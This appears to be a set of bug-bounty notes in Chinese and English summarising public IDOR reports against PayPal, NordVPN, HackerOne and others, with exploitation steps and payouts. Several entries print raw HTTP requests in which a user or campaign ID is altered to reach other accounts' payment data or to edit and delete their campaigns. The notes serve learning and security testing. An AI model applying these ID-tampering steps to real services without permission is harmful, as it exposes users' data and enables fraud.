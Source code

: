 ## [IDOR to add secondary users in www.paypal.com/businessmanage/users/api/v1/users](https://hackerone.com/reports/415081)
#idor 
### Step
1. PayPal企业帐户允许帐户所有者创建多个二级用户，并为其员工分配特定权限。
2. 使企业帐户所有者可以从其他帐户分配次要用户
3. 新的次要用户将被授予对登录的访问，从而允许对该单个用户登录的功能的未授权访问.
4. 10500$💵

## [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577)
#idor 

### Step
1. 请求包
```
POST /api/v1/orders HTTP/1.1 
Host: join.nordvpn.com 
Accept: application/json 
Accept-Language: en-US,en;q=0.5 
Content-Type: application/json 
Content-Length: 179 
DNT: 1 
Connection: close

{  
    "payment":{  
        "provider_method_account":"6xdxdd",  
        "parameters":{  
  
        }  
    },  
    "action":"order",  
    "plan_id":653,  
    "user_id":20027039,  
    "tax_country_code":"TW",  
    "payment_retry":0,  
    "is_installment":false  
}
```
2. 响应体
```
{  
    "id":42615458,  
    "user_id":20027039,  
    "confirmation":{  
        "id":23093398,  
        "created_at":"2019-12-04 17:01:35",  
        "updated_at":"2019-12-04 17:01:35",  
        "type":"redirect_post",  
        "value":"{"url":"https:\/\/www.coinpayments.net\/index.php","parameters":{  
  {  "cmd":"_pay",  
    "reset":1,  
    "email":"█████",  
    "merchant":"e64a9629f9a68cdeab5d0edd21b068d3",  
    "currency":"USD",  
    "amountf":125.64,  
    "item_name":"VPN order",  
    "invoice":"49476958",  
    "success_url":"[https://join.nordvpn.com/payments/callback/264cae0b89e44a7bd263431b68d1122d](https://join.nordvpn.com/payments/callback/264cae0b89e44a7bd263431b68d1122d)",  
    "cancel_url":"[https://join.nordvpn.com/order/error/?error_alert=payment&eu=1]
    (https://join.nordvpn.com/order/error/?error_alert=payment&eu=1)",  
    "want_shipping":0  
}
}
```
3. 更改请求包userid ，得到的响应体,泄露铭感数据
```
{  
    "id":42616142,  
    "user_id":89495247,  
    "confirmation":{  
        "id":23093800,  
        "created_at":"2019-12-04 17:16:48",  
        "updated_at":"2019-12-04 17:16:48",  
        "type":"redirect_post",  
        "value":"{"url":"https:\/\/www.coinpayments.net\/index.php",
        "parameters":{"cmd":"_pay","reset":1,"email":"hackerhacker@test.pl","
        merchant":"e64a9629f9a68cdeab5d0edd21b068d3",
        "currency":"USD","amountf":125.64,"item_name":"VPN order","
        invoice":"49478089",
        "success_url":"https:\/\/join.nordvpn.com\/payments\/callback\/4513bd083a97e1b5c23c69096d89ac80",
        "cancel_url":"https:\/\/join.nordvpn.com\/order\/error\/?
        error_alert=payment&eu=0","want_shipping":0}}"  
    }  
}
```
4. 1000$💵

## [Insecure Direct Object Reference (IDOR) - Delete Campaigns](https://hackerone.com/reports/1969141)
#idor
### Step
1. 请求包,关注点campaign_id
```
POST /graphql HTTP/2
Host: hackerone.com
Cookie: yourcookie
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/organizations/opensea_demo/campaigns/242/edit
Content-Type: application/json
X-Csrf-Token: ███
X-Product-Area: campaigns
X-Product-Feature: edit
X-Datadog-Origin: rum
X-Datadog-Parent-Id: 9027318766950450042
X-Datadog-Sampling-Priority: 1
X-Datadog-Trace-Id: 87799383677632658
Content-Length: 851
Origin: https://hackerone.com
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{  
    "operationName":"UpdateCampaign",  
    "variables":{  
        "product_area":"campaigns",  
        "product_feature":"edit",  
        "input":{  
            "campaign_id":"Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA==",  
            "team_id":"Z2lkOi8vaGFja2Vyb25lL0VuZ2FnZW1l
            bnRzOjpCdWdCb3VudHlQcm9ncmFtLzU3MzI4",  
            
            "bounty_table_row_id":"Z2lkOi8vaGFja2Vyb25lL0Jv
            dW50eVRhYmxlUm93LzEwODM2",  
            
            "start_date":"2023-05-05T09:00:00Z",  
            "end_date":"2023-05-08T05:00:00Z",  
            "critical":3,  
            "high":2,  
            "medium":1.5,  
            "low":1.5,  
            "structured_scope_ids":[  
  
            ],  
            "researchers_information":"ccccccccccccccc"  
        }  
    },  
    "query":"mutation UpdateCampaign($input: UpdateCampaignInput!) {   updateCampaign(input: $input) {     
    was_successful     errors {       
    edges {         
    node {           
    id           type           field           message           __typename         
    }         __typename       }      
     __typename     }     __typename   } } "  
}

```
2. base64解码campaign_id ，得到**gid://hackerone/Campaign/244**
3. 更改数字 ，并编码放回包中 ，可更改删除其他公司项目
5. 50$💵

## IDOR 功能点
#idor 
### Step
1. [更改私人视频的密码](https://hackerone.com/reports/681473)1,500$💵
2. 编辑其他视频数据，如标题和描述
3. 通过成功利用IDOR发布私人视频
4. [从图库中删除照片和相册](https://hackerone.com/reports/380410)1,500$💵

## [Access Control Bug](https://medium.com/@a13h1/webinar-pro-or-not-the-500-access-control-bug-5cf28cd80543)
#idor 
### Step
1. 管理员下发会议开通包(一个包理论只有一次会议)给普通用户
2. 普通用户使用 包 开通会议时抓包
3. 无限重发此包 无限开会议
4. 500💵

## [IDOR](https://medium.com/@a13h1/my-1000-bounty-bug-how-i-stopped-companies-from-losing-money-with-an-idor-flaw-2366984a6c40)
#idor
### Step
1. A账户(A公司)创建一个消费请求，抓包，观察参数
2. B账户(B公司)也创建一个消费请求
3. 将A账户的公司id换成B账户的，消费请求随之变换
4. 1000💵

## [# PayPal IDOR via billing Agreement Token (closed Informative, payment fraud)](https://medium.com/@h4x0r_dz/paypal-idor-via-billing-agreement-token-closed-informative-payment-fraud-3245202fab38)
